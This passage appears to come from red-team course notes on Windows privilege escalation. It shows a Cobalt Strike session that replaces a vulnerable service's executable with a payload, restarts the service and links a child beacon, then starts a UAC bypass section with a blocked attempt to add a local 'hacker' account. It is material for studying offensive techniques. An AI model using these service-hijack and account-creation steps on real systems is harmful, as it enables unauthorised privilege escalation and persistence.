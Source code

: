 This means that the file is already in use, which makes sense since the service is already running.
{% endhint %}

```
beacon> run sc stop VulnService3
beacon> upload C:\Payloads\Service 3.exe
beacon> ls
[*] Listing: C:\Program Files\Vuln Services\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 5kb      fil     02/23/2021 15:04:13   Service 1.exe
 5kb      fil     02/23/2021 15:04:13   Service 2.exe
 290kb    fil     03/03/2021 11:38:24   Service 3.exe

beacon> run sc start VulnService3
beacon> connect localhost 4444
[+] established link to child beacon: 10.10.123.102
```

## User Account Control (UAC) Bypasses

### What is UAC?

UAC is a technology that exists in Windows which forces applications to prompt for consent when requesting an Administrative Access Token.

### For Example...

_Bob_ is a local administrator on _**Workstation 2**_, but if we open a Command Prompt and attempt to add a new local user, we will get an access denied.

This instance of `cmd.exe` is running in _**Medium Integrity**_ mode.

**Below, we attempt to add a new user, `hacker`, via `net user`:**

```
C:\Users\bfarmer>net user hacker Passw0rd! /add
System error 5 has occurred.

Access is denied.

C:\Users\bfarmer>whoami /groups

Mandatory Label\Medium Mandatory Level
```

Instead, we will need to right-click or `CTRL` + `SHIFT` + `ENTER` to _**Run as Administrator**_ and cause a UAC prompt to appear.
